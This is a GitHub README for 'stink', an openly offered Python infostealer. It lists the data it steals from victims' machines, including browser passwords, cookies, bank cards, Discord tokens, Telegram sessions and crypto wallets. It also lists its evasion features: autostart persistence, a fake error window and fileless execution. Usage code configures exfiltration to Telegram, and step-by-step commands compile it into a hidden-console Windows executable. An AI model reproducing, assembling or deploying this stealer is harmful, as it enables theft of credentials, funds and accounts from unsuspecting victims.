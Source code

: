 # stink

Stealer in just a few lines with sending to Telegram / Server / Discord / SMTP. No dependencies, only built-in libraries.

**Wiki:** https://github.com/FallenAstaroth/stink/wiki

## Description
The `stink` already has an impressive functionality that will only expand.

## Navigation
* [Current features](#Сurrent-features)
* [Example usage](#Example-usage)
  * [Standard](#Standard)
  * [Certain modules](#Certain-modules)
  * [Additional parameters](#Additional-parameters)
* [Creating exe](#Creating-exe)
  * [Creating executable file](#Creating-executable-file)
  * [With BAT](#With-BAT)
  * [With CMD](#With-CMD)

### Current features
1. Support for the following browsers:
   - Chrome
   - Opera
   - Opera GX
   - Edge
   - Brave
   - Vivaldi
   - Yandex (Partially)
2. Collecting the following data:
   - Screenshot
   - Cookies
   - Passwords
   - Bank cards
   - History
   - Bookmarks
   - IP-address
   - System configuration
   - Active processes
   - Discord tokens
   - Telegram sessions
   - FileZilla hosts
   - Crypto wallets:
       - Metamask
       - Phantom
       - Atomic
       - Exodus
       - Other 10 wallets
   - Steam configs
3. Built-in sending methods: 
   - Telegram
   - Server
   - Discord
   - SMTP
4. Support for browser multiprofiles.
5. Execution in a separate thread.
6. Execution using multiprocessor.
7. Possibility to add to autostart.
8. Showing a window with a fake error.
9. Execution without creating any files.

## Example usage
### Standard
```python
from stink import Stealer, Senders

if __name__ == '__main__':
    Stealer(senders=[Senders.telegram(token="YOUR_TOKEN", user_id=YOUR_ID)]).run()
```
### Certain modules

An example with only system data collection and screenshot.
```python
from stink import Stealer, Features, Senders

if __name__ == '__main__':
    Stealer(
        senders=[
            Senders.telegram(token="YOUR_TOKEN", user_id=YOUR_ID)
        ], 
        features=[
            Features.system,
            Features.screenshot
        ]
    ).run()
```
### Additional parameters

- `features` - enables modules from the list. Modules can be imported from `stink.enums.Features`. Available modules:

  - `passwords` - collecting passwords.

  - `cookies` - collecting cookies.

  - `cards` - collecting bank cards.

  - `history` - collecting search history.

  - `bookmarks` - collecting bookmarks.

  - `extensions` - collecting browser extensions.

  - `processes` - collecting active processes.

  - `system` - collecting system configuration.

  - `screen` - screenshot.

  - `discord` - collecting Discord tokens.

  - `telegram` - collecting Telegram sessions.

  - `filezilla` - collecting FileZilla hosts.

  - `wallets` - collecting crypto wallets.

  - `steam` - collecting Steam configs.


- `utils` - enables the utilities from the list. Utilities can be imported from `stink.enums.Utils`. Available utilities:

  - `autostart` - adding to autostart.

  - `message` - showing a fake error window.


- `senders` - launches sending methods from the list. Sending methods can be imported from `stink.enums.Senders`. Available sending methods:

  - `server` - sending to server.

  - `telegram` - sending to Telegram.

  - `discord` - sending to Discord.

  - `smtp` - send to mail.
  
## Creating exe
Python is an interpreted programming language, so we first translate it into C and then compile it into an .exe file.
We will need Nuitka to do this.

### Creating executable file

1. [Download](https://github.com/FallenAstaroth/stink/archive/refs/heads/master.zip) archive.
2. Unpack the archive and go to the directory stink-master.
3. Create test.py (or any other name) file in the same directory with the following code:
```python
from stink import Stealer, Senders

if __name__ == '__main__':
    Stealer(senders=[Senders.telegram(token="YOUR_TOKEN", user_id=YOUR_ID)]).run()
```

#### With BAT
1. Run compiler.bat.


#### With CMD
1. Open `cmd`.
2. Type in the command:
```
pip install virtualenv
```
3. Go to the folder with the `test.py` file:
```
cd path\to\file
```
4. Create a virtual environment and activate it:
```
virtualenv venv
```
```
venv\Scripts\activate
```
5. Install the Nuitka:
```
pip install Nuitka==0.6.16.4
```
6. To reduce the file size, additionally install Zstandard (optional):
```
pip install zstandard==0.17.0
```
7. Write the command:
```
nuitka --onefile --plugin-enable=multiprocessing --windows-disable-console test.py
```

After executing the command we get the test.exe file with the hidden console.
